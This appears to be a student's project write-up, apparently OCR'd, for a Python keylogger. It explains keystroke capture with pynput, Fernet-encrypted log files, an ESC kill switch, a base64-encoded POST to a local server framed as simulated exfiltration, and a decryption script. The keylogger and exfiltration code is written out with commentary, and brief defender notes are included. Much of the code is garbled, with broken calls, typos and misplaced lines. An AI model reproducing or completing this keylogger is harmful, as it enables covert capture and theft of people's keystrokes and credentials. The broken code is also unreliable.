 Keylogger Project=>
Here I had uploaded the program for keylogger which are 2 pdf's and uploaded output as a screenshot.
A keylogger is a Program or tool which is used to capture keystrokes.As well as I had used encrypted data Exfilteration.
Exfiltration is a process of transfer of sensitive information from a computer system or network an external destination. 
Exfiltration is actually just same as data theft where attackers aim to extract values data for malicious purposes.
Here following libraries are used for following purposes:-

import os->for file system operation (like checking if the key file exists).

from pynput import Keyboard->Pynput is a library which is used to control and monitor input devices such as keyboard and mouse.From this I included Keyboard for monitoring keyboard.For capturing and Listening to
keytrokes on the system.
From cryptograppy fernet import ferner->This Library provides a secure and easy to use symmetric encryption scheme Here fernet is an encryption algorithom.
import base 64-> for encoding the encrypted data to safely send over the network
import datetime-> For generating timestamp for log entries.
import requests->for sending HTTP POST requests (simulating exfiltration).

Fernet:
The scheme used here is fernet.
Fernet is a symmetric encryption scheme provided by the cryptography library in Python. It is designed to be a secure and user-friendly way to encrypt and decrypt data.
->key File='encryption_key.key':Defines a filename to save or load the encryption key.
->if os.path.exists (key_File):Checks if encryption key file exists.
->with open (Key_File,'rb') as f: If exists, open the key file in binary read mode.
->Key=f.read(): Read the saved fernet key from fik.
->else:If the key file does not exist, generate one.
->Key = Fernet. generate_key()
→ with open (key_File,'wb') as f:creates a new key file for writing the newly generated key.
->f.write (KEY):saves the key to a file for writing the newly generated key.
->fernet = Fernet (KEY):Initializes the zernet encryption/decryption instance with the key.
->Log_File = "keys.txt":Sets the filename where encrypted keystore will be stored.
->KILL_SWITCH=keyboard Key.esc:Sets the ESC key as the kill switch which when pressed will stop logging.

Note:Malware often has kill switches for testing. Analysts can search for these as potential weak points to terminate execution.

Writing Encrypted Logs
Prepare a log entry with timestamp + keystrokes Encrypts it with Fernet.
Writes encrypted data to file
Base64 encodes it and exfilterates by POSTING to a server
Note:I was confused here Log-data is not a pre-defined paramater.It is actually taken that while Calling function we pass the real arguments.
Code->
def
Write_encrypted_logo(log-data):
      timestamp=datetime.datetime.utconow().isofformat()
      log = f"{timestamp}:{log_data}\n"
      enc_log = ferrnet.encrypt (log.encode) 
      with open (LOG_FILE, "ab") as f:
           f.write (enc_log +b'\n')
#simulate exfiltration
b64_ence_log = base64.64 encode(enc_log).decode()
requests.port('http://127.0.0.1:5000/recieve'),
data = {'data': b64_enc_log}
Note:
Defenders should monitor Post traffu to unknown servers and scan for encrypted data leaving endpoints.

Keylogger Listener
def on_press(key):
     try:
        write_encrypted_log(str(key.char))
     except AttributeError:
        write_encrypted_log (str(key))
      if key==KILL_SWITCH:
           #end listener
           return False
Listener=keyboard. Listener(on_press=on_press)
listener.start()
listener.join()
def on_press(key):Defines the callback function that is triggered every time a key is pressed.The key parameter represent the key that was pressed.
try: Starts a try expect block to handle different types of key presses.
→Write- encrypted-log (str key char)):Tries to get the character representation of the key(e.g..'a',b','1') and passes it the write_encrypted_log function.This works for most alphanumeric keys.
→ except Attribute Error: This Block is executed if key.char fails, which happen sfor special keys like shift, ctrl or space.
->write_encrypted_log(str(key.char)):tries to get the character representation of the key(e.g..,'a','b,'1')and passes it the write_encrypted_log function.This works for most alphanumeric keys.
→ if key == KILL-switch: checks if the pressed key is the delignated kill switch (sscape)
→ return False: If the kill switch is pressed this line returns false, which signals the pynput listener to stop.
→listener = keyboard.Listener(on_press=on_press) creates an instance of the keyboard.listener class. It configured to call the on_press function wheneler a key is pressed.
->listener.start() :- starts the listener in a seperate thread, allowing to continue the main program running.
→ listener.join():starts for the listener thread to finish. This keeps the program running and listening for key presses untill the return False statement is triggered by the kill switch.

This was the code for encrypting and capturing key strokes storing in a file.
Now I will write the code for reading,decrypting and printing the keystrokes that had been captured,encrypted and stored in a file.
Here the encryption used for encrypting and decrypting is symmetric Encryption which uses a single for this operation.
Algorithim:-
Fernet Key -The scripts leads a symmetric encryption key from a file named encryption_key.key and uses it to instantiate the Fernet object.
Reading Encrypted Data - It reads all lines in Keys.txt, each presumed to be individual encrypted log line.
Decryption Process: Each line is stripped of whitespace (to remove newline character) and then decrypted using Fernet.If decryption succeeds, the original plaintext log is printed with time stamped; otherwise an error message occurs.
From cryptography.fernet import Fernet → This line imports the fernet class from the cryptography.fernet module.Fernet is a symmetric encryption scheme that provides a high level API for encrypting and decrypting data.symmetric means the same key is used for both encryption and decryption.
Note:
Here we have encoded and decoded the text before encrypting because fernet encryption algorithim operate on raw bytes, not on text strings. The byte string was then passed to the fernet. decrypt() and encrypt method. It was encoded and decoded into Bytes before encrypting by UTF-8 method.

Code & explaination:

->from cryptography.Fernet import Fernet=>This line imports class from the cryptography library for symmetric encryption and decryption.
->with open('encryption_key.key','rb') as f:key=f.read()=>This block opens the encryption_key.key file in read binary(rb) mode and reads the encryption key.
->fernet=Fernet(key)=>This line creates a Fernet object using the loaded key.
->with open ('keys.txt','rb') as f: encrypted lines=f.readlines(): This block opens keys.txt file in read-binary(rb) mode.
->for enc_line=enc_line.strip()=>The strip() method is used to remove any leading or traiing whitespaces, including the newline character (\n) that are often at the end of lines when reading as a byte.
=>decrypted_log=decrypted_bytes.decode()=>Since the output of decrypt() is a byte string, you need to convert it to a human-readable string.
=>print(decrypted_log)=>For printing decrypted log data.
=>except Exception as e:printf("Failed to decrypt a line:{e}")
